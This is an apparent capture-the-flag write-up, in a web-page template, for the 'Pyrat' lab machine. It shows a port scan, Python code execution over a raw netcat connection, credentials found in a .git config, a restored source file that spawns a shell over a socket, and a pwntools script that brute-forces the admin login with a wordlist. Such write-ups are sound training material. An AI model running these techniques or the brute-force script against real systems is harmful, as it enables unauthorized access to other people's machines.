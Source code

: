 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("Let's begin by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.209.122", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-15 09:23 CET
Nmap scan report for 10.10.209.122
Host is up (0.090s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
")}}

{{text("After visiting the site on port 8000, we encountered the following.")}}

{{image("../../static/writeups/pyrat/images/000001.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Initially, I tried using Burp Suite, but it didn't lead anywhere. Then, I used netcat to connect to the address. Since it was stated that <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>a HTTP response leads to a Python code vulnerability</code>, I immediately attempted to run Python code.")}}

{{console("nc 10.10.209.122 8000", "l
name 'l' is not defined
test
name 'test' is not defined
print(2)
2
")}}

{{text("Since it worked, I used a Python reverse shell from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and attempted to get it running.")}}

{{image("../../static/writeups/pyrat/images/000002.jpg")}}

{{text("This worked, and now we were the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>www-data</code> user.")}}

{{header("Shell as think", "shell-as-think")}}

{{text("While exploring the system, I discovered a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.git</code> directory inside <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt/dev</code>.")}}

{{text("The challenge description mentioned we should <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>explore the application's older version</code>, so I decided to investigate further.")}}

{{text("Inside the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.git</code> directory, I came across an old <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>config</code> file containing user credentials.")}}

{{console("cat config", "[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential 'https://github.com']
        username = think
        password = [REDACTED]")}}

{{text("We switched users to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>think</code> and successfully logged in using the newly obtained password.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Next, we navigated to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt/dev</code> to check for the older version of the application.")}}

{{console("git status", "On branch master
Changes not staged for commit:
  (use 'git add/rm <file>...' to update what will be committed)
  (use 'git restore <file>...' to discard changes in working directory)
        deleted:    pyrat.py.old

no changes added to commit (use 'git add' and/or 'git commit -a')")}}

{{text("We noticed that <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pyrat.py.old</code> had been deleted. Let's attempt to restore that file.")}}

{{image("../../static/writeups/pyrat/images/000003.jpg")}}

{{text("Now, we can read the contents of the restored file.")}}

{{console("cat pyrat.py.old", "def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if not approved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn('/bin/sh')")}}

{{text("We can see that if <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>data == 'shell'</code>, the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>shell</code> function is executed, which spawns a shell.")}}

{{text("Let's try connecting to our target again using netcat and input <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>shell</code>.")}}

{{image("../../static/writeups/pyrat/images/000004.jpg")}}

{{text("It works, but unfortunately, we are still the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>www-data</code> user.")}}

{{text("It seems that the key is to correctly guess the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>some_endpoint</code>.")}}

{{text("To be honest, I didn't feel like writing a script for it, so I started guessing since this is an easy challenge, and I got lucky.")}}

{{image("../../static/writeups/pyrat/images/000005.jpg")}}

{{text("We need the admin's password, so I guess that's karma. I wrote a script to guess the password.")}}

{{console("from pwn import *

server = '10.10.88.128'
port_number = 8000
wordlist_path = '/usr/share/wordlists/rockyou.txt'

def create_connection():
    return remote(server, port_number)

def try_login(password_guess):
    session = create_connection()
    session.sendline(b'admin')
    session.recvuntil(b'Password:')
    session.sendline(password_guess.encode())
    feedback = session.recvline(timeout=2)
    feedback = session.recvline(timeout=2)
    if b'Password:' in feedback:
        print(f'Attempt with \'{password_guess}\' failed.')
        session.close()
        return False
    elif b'Welcome' in feedback or b'Success' in feedback:
        print(f'Potential success with \'{password_guess}\'!')
        session.close()
        return True
    else:
        print(f'Unexpected feedback for \'{password_guess}\': {feedback}')
        session.close()
        return False

def brute_force_password():
    with open(wordlist_path, 'r', encoding='latin-1') as wordlist:
        for password in wordlist:
            password = password.strip()
            if try_login(password):
                print(f'Valid password identified: {password}')
                break

if __name__ == '__main__':
    brute_force_password()")}}

{{text("We got the password almost immediately.")}}

{{image("../../static/writeups/pyrat/images/000006.jpg")}}

{{text("After logging in as admin, we gained root access. Now, we just need to go to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/root</code> and retrieve our flag.")}}

{{image("../../static/writeups/pyrat/images/000007.jpg")}}

{{script()}}  
